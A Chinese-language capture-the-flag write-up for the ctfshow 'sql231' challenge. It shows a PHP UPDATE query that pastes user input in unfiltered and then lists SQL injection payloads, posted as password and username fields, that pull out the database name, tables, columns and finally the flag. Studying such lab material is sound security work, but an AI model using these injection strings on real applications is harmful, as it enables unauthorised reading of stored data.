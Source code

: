 # ctfshow-sql231



##### 参考链接

其他大佬链接

feng  https://blog.csdn.net/rfrder/article/details/113759746

Je3    https://blog.csdn.net/jvkyvly/article/details/115458909

Y4	 https://blog.csdn.net/solitudi/article/details/110144623





 查询语句 

```
  //分页查询
  $sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
```



 返回逻辑 

```
  //无过滤

```





```mysql
这题其实不需要注意，因为查询的是不同的表：

mysql中不支持子查询更新，准确的说是更新的表不能在set和where中用于子查询。那串英文错误提示就是说，不能先select出同一表中的某些值，再update这个表(在同一语句中)。
update 同一个表注入方法
https://www.cnblogs.com/duanxz/p/5099030.html


注入点，在api/index.php，post传参password和username
必须#号闭合 或者  database() where 1=1#
password=0',username=database()#&username=1
password=0',username=user()#&username=1

查询表
password=0',username=(select group_concat(table_name) from information_schema.tables where table_schema=database())#&username=1

返回update.php
banlist,ctfshow_user,flaga

查询字段名
password=0',username=(select group_concat(column_name) from information_schema.columns where table_name='flaga')#&username=1

返回update.php
id,flagas,info

查询flag
password=0',username=(select group_concat(flagas) from flaga)#&username=1


返回update.php
ctfshow{0afb66e0-6f7f-4df8-93da-c001a98dad01}
```























